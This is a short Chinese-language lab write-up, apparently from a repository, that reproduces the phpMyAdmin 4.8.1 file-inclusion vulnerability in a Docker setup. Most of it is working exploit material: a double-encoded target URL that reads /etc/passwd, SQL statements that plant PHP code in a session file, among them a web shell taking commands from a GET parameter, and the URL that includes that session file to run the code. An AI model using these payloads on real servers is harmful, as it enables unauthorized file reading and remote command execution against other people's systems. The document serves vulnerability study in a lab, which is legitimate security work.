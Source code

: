 ## 漏洞复现过程

#### 手工docker搭建

[4.8.xx版本](  https://github.com/phpmyadmin/docker/tree/4.8.1  )

- 首先访问`/etc/passwd`检测是否有文件包含漏洞：

  ` http://192.168.56.107:8183/index.php?target=db_sql.php%253F/../../../../../../../../etc/passwd`

  <img src="img/passwd.png" style="zoom:80%;" />

  执行sql语句：`select '<?php phpinfo();exit;?>'`

  ` <?php system("id");?>  `

  ` select "<?php system($_GET['cmd']); ?>" `
  
  访问链接：`http://192.168.56.107:8000/index.php?target=db_sql.php%253f/../../../../../../../../sessions/sess_e20733fdc899c7a69bb82e6016ab00f1`能看到phpinfo()的页面。
  
  <img src="img/success3.png" style="zoom:80%;" />
